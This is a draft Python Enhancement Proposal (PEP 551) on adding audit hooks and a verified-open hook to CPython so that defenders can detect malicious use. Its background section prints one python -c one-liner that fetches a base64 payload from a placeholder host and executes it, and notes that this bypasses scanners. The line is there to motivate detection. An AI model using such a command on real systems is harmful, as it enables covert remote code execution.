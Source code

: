 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Discussions-To: <security-sig@python.org>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig)

Abstract
========

This PEP describes additions to the Python API and specific behaviors for the
CPython implementation that make actions taken by the Python runtime visible to
security and auditing tools. The goals in order of increasing importance are to
prevent malicious use of Python, to detect and report on malicious use, and most
importantly to detect attempts to bypass detection. Most of the responsibility
for implementation is required from users, who must customize and build Python
for their own environment.

We propose two small sets of public APIs to enable users to reliably build their
copy of Python without having to modify the core runtime, protecting future
maintainability. We also discuss recommendations for users to help them develop
and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote or
elevated code execution. However, in our modern connected world, the more
dangerous vulnerabilities are those that enable advanced persistent threats
(APTs). APTs are achieved when an attacker is able to penetrate a network,
establish their software on one or more machines, and over time extract data or
intelligence. Some APTs may make themselves known by maliciously damaging data
(e.g., `WannaCrypt <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use a
combination of traditional vulnerabilities, social engineering, phishing (or
spear-phishing), thorough network analysis, and an understanding of
misconfigured environments to establish themselves and do their work.

The first infected machines may not be the final target and may not require
special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to spread
to production machines through normal deployment channels. It is common for APTs
to persist on as many machines as possible, with sheer weight of presence making
them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their tracks, the
biggest barrier to detection is a lack of insight. System administrators with
large networks rely on distributed logs to understand what their machines are
doing, but logs are often filtered to show only error conditions. APTs that are
attempting to avoid detection will rarely generate errors or abnormal events.
Reviewing normal operation logs involves a significant amount of effort, though
work is underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that are
already installed on the target machines, since log messages from these tools
are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the existence
of APTs or methods and mitigations that do not apply to this PEP. For further
information about the field, we recommend reading or watching the resources
listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its prevalence on
server and developer machines, its ability to execute arbitrary code provided as
data (as opposed to native binaries), and its complete lack of internal
auditing. This allows attackers to download, decrypt, and execute malicious code
with a single command::

    python -c "import urllib.request, base64; exec(base64.b64decode(urllib.request.urlopen('http://my-exploit/py.b64')).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being written to
disk (base64 is often sufficient to bypass these checks). It also bypasses
protections such as file access control lists or permissions (no file access
occurs), approved application lists (assuming Python has been approved for other
uses), and automated auditing or logging (assuming Python is allowed to access
the internet or access another machine on the local network from which to obtain
its payload).

General consensus among the security community is that totally preventing
attacks is infeasible and defenders should assume that they will often detect
attacks only after they have succeeded. This is known as the "assume breach"
mindset. [1]_ In this scenario, protections such as sandboxing and input
validation have already failed, and the important task is detection, tracking,
and eventual removal of the malicious code. To this end, the primary feature
required from Python is security transparency: the ability to see what
operations the Python runtime is performing that may indicate anomalous or
malicious use. Preventing such use is valuable, but secondary to the need to
know that it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which events
within a scripting engine are worth logging. However, given the value of many
logs events are not recognized until after an attack is detected, it is
important to capture as much as possible and filter views rather than filtering
at the source (see the No Easy Breach video from above). Events that are always
of interest include attempts to bypass auditing, attempts to load and execute
code that is not correctly signed or access-controlled, use of uncommon
operating system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create and hide
files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in order to
detect abnormal or malicious usage. Currently, the Python runtime does not
provide any ability to do this, which (anecdotally) has led to organizations
switching to other languages. The aim of this PEP is to enable system
administrators to deploy a security transparent copy of Python that can
integrate with their existing auditing and protection systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on production
machines is highly appealing to system administrators and will make Python a
more trustworthy dependency for application developers.


Overview of Changes
===================

True security transparency is not fully achievable by Python in isolation. The
runtime can audit as many events as it likes, but unless the logs are reviewed
and analyzed there is no value. Python may impose restrictions in the name of
security, but usability may suffer. Different platforms and environments will
require different implementations of certain security features, and
organizations with the resources to fully customize their runtime should be
encouraged to do so.

The aim of these changes is to enable system administrators to integrate Python
into their existing security systems, without dictating what those systems look
like or how they should behave. We propose two API changes to enable this: an
Audit Hook and Verified Open Hook. Both are not set by default, and both require
modifications to the entry point binary to enable any functionality. For the
purposes of validation and example, we propose a new ``spython``/``spython.exe``
entry point program that enables some basic functionality using these hooks.
**However, security-conscious organizations are expected to create their own
entry points to meet their own needs.**

Audit Hook
----------

In order to achieve security transparency, an API is required to raise messages
from within certain operations. These operations are typically deep within the
Python runtime or standard library, such as dynamic code compilation, module
imports, DNS resolution, or use of certain modules such as ``ctypes``.

The new APIs required for audit hooks are::

   # Add an auditing hook
   sys.addaudithook(hook: Callable[str, tuple]) -> None
   int PySys_AddAuditHook(int (*hook)(const char *event, PyObject *args));

   # Raise an event with all auditing hooks
   sys.audit(str, *args) -> None
   int PySys_Audit(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearAuditHooks(void);

Hooks are added by calling ``PySys_AddAuditHook()`` from C at any time,
including before ``Py_Initialize()``, or by calling ``sys.addaudithook()`` from
Python code. Hooks are never removed or replaced, and existing hooks have an
opportunity to refuse to allow new hooks to be added (adding an audit hook is
audited, and so preexisting hooks can raise an exception to block the new
addition).

When events of interest are occurring, code can either call ``PySys_Audit()``
from C (while the GIL is held) or ``sys.audit()``. The string argument is the
name of the event, and the tuple contains arguments. A given event name should
have a fixed schema for arguments, and both arguments are considered a public
API (for a given x.y version of Python), and thus should only change between
feature releases with updated documentation.

When an event is audited, each hook is called in the order it was added with the
event name and tuple. If any hook returns with an exception set, later hooks are
ignored and *in general* the Python runtime should terminate. This is
intentional to allow hook implementations to decide how to respond to any
particular event. The typical responses will be to log the event, abort the
operation with an exception, or to immediately terminate the process with an
operating system exit call.

When an event is audited but no hooks have been set, the ``audit()`` function
should include minimal overhead. Ideally, each argument is a reference to
existing data rather than a value calculated just for the auditing call.

As hooks may be Python objects, they need to be freed during ``Py_Finalize()``.
To do this, we add an internal API ``_Py_ClearAuditHooks()`` that releases any
``PyObject*`` hooks that are held, as well as any heap memory used. This is an
internal function with no public export, but it triggers an event for all audit
hooks to ensure that unexpected calls are logged.

See `Audit Hook Locations`_ for proposed audit hook points and schemas, and the
`Recommendations`_ section for discussion on appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files that can be
executed and those that can not. For example, this may be an execute bit in the
permissions field, or a verified hash of the file contents to detect potential
code tampering. These are an important security mechanism for preventing
execution of data or code that is not approved for a given environment.
Currently, Python has no way to integrate with these when launching scripts or
importing modules.

The new public API for the verified open hook is::

   # Set the handler
   int Py_SetOpenForExecuteHandler(PyObject *(*handler)(const char *narrow, const wchar_t *wide))

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for raw,
binary access - any more restrictive behaviour requires the use of a custom
handler. (Aside: since ``importlib`` requires access to this function before the
``os`` module has been imported, it will be available on the ``nt``/``posix``
modules, but the intent is that other users will access it through the ``os``
module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()`` from C
at any time, including before ``Py_Initialize()``. When ``open_for_exec()`` is
called with a handler set, the handler will be passed the processed narrow or
wide path, depending on platform, and its return value will be returned
directly. The returned object should be an open file-like object that supports
reading raw bytes. This is explicitly intended to allow a ``BytesIO`` instance
if the open handler has already had to read the file into memory in order to
perform whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function on
CPython without triggering themselves.

If the handler determines that the file is not suitable for execution, it should
raise an exception of its choice, as well as raising any other auditing events
or notifications.

All import and execution functionality involving code from a file will be
changed to use ``open_for_exec()`` unconditionally. It is important to note that
calls to ``compile()``, ``exec()`` and ``eval()`` do not go through this
function - an audit hook that includes the code from these calls will be added
and is the best opportunity to validate code that is read from the file. Given
the current decoupling between import and execution in Python, most imported
code will go through both ``open_for_exec()`` and the log hook for ``compile``,
and so care should be taken to avoid repeating verification steps.

.. note::
   The use of ``open_for_exec()`` by ``importlib`` is a valuable first defence,
   but should not be relied upon to prevent misuse. In particular, it is easy
   to monkeypatch ``importlib`` in order to bypass the call. Auditing hooks are
   the primary way to achieve security transparency, and are essential for
   detecting 
   

API Availability
----------------

While all the functions added here are considered public and stable API, the
behavior of the functions is implementation specific. The descriptions here
refer to the CPython implementation, and while other implementations should
provide the functions, there is no requirement that they behave the same.

For example, ``sys.addaudithook()`` and ``sys.audit()`` should exist but may do
nothing. This allows code to make calls to ``sys.audit()`` without having to
test for existence, but it should not assume that its call will have any effect.
(Including existence tests in security-critical code allows another vector to
bypass auditing, so it is preferable that the function always exist.)

``os.open_for_exec(pathlike)`` should at a minimum always return
``_io.open(pathlike, 'rb')``. Code using the function should make no further
assumptions about what may occur, and implementations other than CPython are not
required to let developers override the behavior of this function with a hook.


Audit Hook Locations
====================

Calls to ``sys.audit()`` or ``PySys_Audit()`` will be added to the following
operations with the schema in Table 1. Unless otherwise specified, the ability
for audit hooks to abort any listed operation should be considered part of the
rationale for including the hook.

.. csv-table:: Table 1: Audit Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddAuditHook``, ``sys.addaudithook``, "", "Detect when new audit
   hooks are being added."
   ``_PySys_ClearAuditHooks``, ``sys._clearaudithooks``, "", "Notifies hooks
   they are being cleaned up, mainly in case the event is triggered
   unexpectedly. This event cannot be aborted."
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "Detects
   any attempt to set the ``open_for_execute`` handler."
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``, ``PyAST_obj2mod``
   ", ``compile``, "``(code, filename_or_none)``", "Detect dynamic code
   compilation, where ``code`` could be a string or AST. Note that this will be
   called for regular imports of source code, including those that were opened
   with ``open_for_exec``."
   "``exec``, ``eval``, ``run_mod``", ``exec``, "``(code_object,)``", "Detect
   dynamic execution of code objects. This only occurs for explicit calls, and
   is not raised for normal function invocation."
   ``import``, ``import``, "``(module, filename, sys.path, sys.meta_path,
   sys.path_hooks)``", "Detect when modules are imported. This is raised before
   the module name is resolved to a file. All arguments other than the module
   name may be ``None`` if they are not used or available."
   ``code_new``, ``code.__new__``, "``(bytecode, name, filename)``", "Detect
   dynamic creation of code objects. This only occurs for direct instantiation,
   and is not raised for normal compilation."
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used."
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "Collect
   information about specific symbols retrieved from native modules."
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect when code
   is accessing arbitrary memory using ``ctypes``"
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing the id of
   objects, which in CPython reveals information about memory layout."
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect when
   code is accessing frames directly"
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when code is
   accessing frames directly"
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.setprofile`` eventually calls this function, so the event
   will be audited for each thread."
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.settrace`` eventually calls this function, so the event
   will be audited for each thread."
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "", "Detect
   changes to the coroutine wrapper."
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "``(new_limit,)``", "
   Detect changes to the recursion limit."
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "``(interval_us,)``
   ", "Detect changes to the switching interval."
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.getaddrinfo``, ``socket.getnameinfo``, ``socket.sendmsg``,
   ``socket.sendto``", ``socket.address``, "``(address,)``", "Detect access to
   network resources. The address is unmodified from the original call."
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "Detect
   creation of sockets. The arguments will be int values."
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts to
   retrieve the current host name."
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "Detect
   attempts to change the current host name. The name argument is passed as a
   bytes object."
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``", "
   ``socket.gethostbyname``", "``(name,)``", "Detect host name resolution. The
   name argument is a str or bytes object."
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "``(address,)``", "Detect
   host resolution. The address argument is a str or bytes object."
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name, protocol)``", "
   Detect service resolution. The arguments are str objects."
   ``socket.getservbyport``, ``socket.getservbyport``, "``(port, protocol)``", "
   Detect service resolution. The port argument is an int and protocol is a
   str."
   "``_PyObject_GenericSetAttr``, ``check_set_special_type_attr``","
   ``type.__setattr__``","``(type, attr_name, value)``","Detect monkey patching
   of types. This event is only raised when the object is an instance of
   ``type``."
   ``object_set_class``,``object.__setattr__``,"``(object, attr,
   value)``","Detect monkey patching of objects. This event is only raised for
   the ``__class__`` attribute."
   ``Unpickler.find_class``,``pickle.find_class``,"``(module_name,
   global_name)``","Detect imports and global name lookup when unpickling."

TODO - more hooks in ``_socket``, ``_ssl``, others?
* code objects
* function objects

SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on Windows and
``spythonX.Y`` on other platforms. This entry point is intended primarily as an
example, as we expect most users of this functionality to implement their own
entry point and hooks (see `Recommendations`_). It will also be used for tests.

Source builds will build ``spython`` by default, but distributions should not
include it except as a test binary. The python.org managed binary distributions
will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the first
argument, and does not allow any options. This prevents arbitrary code execution
from in-memory data or non-script files (such as pickles, which can be executed
using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment variables)
and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it will be
used to initialize ``sys.path`` following the rules currently described `for
Windows <https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a ``-i``
option with no other arguments to enter into interactive mode, with audit
messages being written to standard error rather than a file. This is intended
for testing and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set an audit hook that writes events to
a local file. By default, this file is the full path of the process with a
``.log`` suffix, but may be overridden with the ``SPYTHONLOG`` environment
variable (despite such overrides being explicitly discouraged in
`Recommendations`_).

The audit hook will also abort all ``sys.addaudithook`` events, preventing any
other hooks from being added.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute hook that
validates all files opened with ``os.open_for_exec``. This implementation will
require all files to have a ``.py`` suffix (thereby blocking the use of cached
bytecode), and will raise a custom audit event ``spython.open_for_exec``
containing ``(filename, True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any other
process from opening it with write access, which allows the hook to perform
additional validation on the contents with confidence that it will not be
modified between the check and use. Compilation will later trigger a ``compile``
event, so there is no need to read the contents now for AMSI, but other
validation mechanisms such as DeviceGuard [4]_ should be performed here.

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events that use
the default implementation. Overrides will not raise audit events unless
explicitly added, and so they will continue to be allowed.

Performance Impact
==================

**TODO**

Full impact analysis still requires investigation. Preliminary testing shows
that calling ``sys.audit`` with no hooks added does not significantly affect
any existing benchmarks, though targeted microbenchmarks can observe an impact.

Performance impact using ``spython`` or with hooks added are not of interest
here, since this is considered opt-in functionality.


Recommendations
===============

Specific recommendations are difficult to make, as the ideal configuration for
any environment will depend on the user's ability to manage, monitor, and
respond to activity on their own network. However, many of the proposals here do
not appear to be of value without deeper illustration. This section provides
recommendations using the terms **should** (or **should not**), indicating that
we consider it dangerous to ignore the advice, and **may**, indicating that for
the advice ought to be considered for high value systems. The term **sysadmins**
refers to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the responsible
people.

Sysadmins **should** build their own entry point, likely starting from the
``spython`` source, and directly interface with the security systems available
in their environment. The more tightly integrated, the less likely a
vulnerability will be found allowing an attacker to bypass those systems. In
particular, the entry point **should not** obtain any settings from the current
environment, such as environment variables, unless those settings are otherwise
protected from modification.

Audit messages **should not** be written to a local file. The ``spython`` entry
point does this for example and testing purposes. On production machines, tools
such as ETW [7]_ or auditd [12]_ that are intended for this purpose should be
used.

The default ``python`` entry point **should not** be deployed to production
machines, but could be given to developers to use and test Python on
non-production machines. Sysadmins **may** consider deploying a less restrictive
version of their entry point to developer machines, since any system connected
to your network is a potential target. Sysadmins **may** deploy their own entry
point as ``python`` to obscure the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available platform
functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures for every
file in a Python deployment, ideally verified using a private certificate. For
example, Windows supports embedding signatures in executable files and using
catalogs for others, and can use DeviceGuard [4]_ to validate signatures either
automatically or using an ``open_for_exec`` hook.

Sysadmins **should** log as many audited events as possible, and **should** copy
logs off of local machines frequently. Even if logs are not being constantly
monitored for suspicious activity, once an attack is detected it is too late to
enable auditing. Audit hooks **should not** attempt to preemptively filter
events, as even benign events are useful when analyzing the progress of
an attack. (Watch the "No Easy Breach" video under `Further Reading`_ for a
deeper look at this side of things.)

Most actions **should not** be aborted if they could ever occur during normal
use or if preventing them will encourage attackers to work around them. As
described earlier, awareness is a higher priority than prevention. Sysadmins
**may** audit their Python code and abort operations that are known to never be
used deliberately.

Audit hooks **should** write events to logs before attempting to abort. As
discussed earlier, it is more important to record malicious actions than to
prevent them.

Sysadmins **should** identify correlations between events, as a change to
correlated events may indicate misuse. For example, module imports will
typically trigger the ``import`` auditing event, followed by an
``open_for_exec`` call and usually a ``compile`` event. Attempts to bypass
auditing will often suppress some but not all of these events. So if the log
contains ``import`` events but not ``compile`` events, investigation may be
necessary.

The first audit hook **should** be set in C code before ``Py_Initialize`` is
called, and that hook **should** unconditionally abort the ``sys.addloghook``
event. The Python interface is primarily intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry point
**may** add an audit hook that aborts the ``sys.addloghook`` event but otherwise
does nothing.

On production machines, a non-validating ``open_for_exec`` hook **may** be set
in C code before ``Py_Initialize`` is called. This prevents later code from
overriding the hook, however, logging the ``setopenforexecutehandler`` event is
useful since no code should ever need to call it. Using at least the sample
``open_for_exec`` hook implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_exec`` may be easily bypassed with
monkeypatching, an audit hook **should** be used to detect modifications to
existing types.

[TODO: more good advice; less bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the Python
runtime safer for production use, and especially to James Powell for doing much
of the initial research, analysis and implementation, Lee Holmes for invaluable
insights into the info-sec field and PowerShell's responses, and Brett Cannon
for the grounding discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be distributed
only subject to the terms and conditions set forth in the Open Publication
License, v1.0 or later (the latest version is presently available at
http://www.opencontent.org/openpub/).
